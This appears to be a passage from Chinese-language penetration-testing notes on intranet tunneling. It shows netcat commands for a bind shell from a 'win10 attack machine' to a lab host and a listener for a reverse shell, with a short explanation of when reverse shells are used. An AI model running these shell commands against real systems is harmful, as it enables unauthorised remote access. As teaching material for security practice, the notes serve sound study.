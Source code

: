 ![image-20241019210823140](内网隧道代理技术/image-20241019210823140.png)	

![image-20241019210948197](内网隧道代理技术/image-20241019210948197.png)	

```
win10攻击机执行，即可正向反弹shell成功。
nc64.exe 192.168.15.115 1111
```

![image-20241019211054971](内网隧道代理技术/image-20241019211054971.png)	

```
反向反弹shell的使用场景
攻击者机器不能直接访问靶机，但是靶机可以访问攻击者的机器，这个时候使用反向shell
```

```
win10攻击机，监听端口即可
nc64.exe -lvvp 1112
```
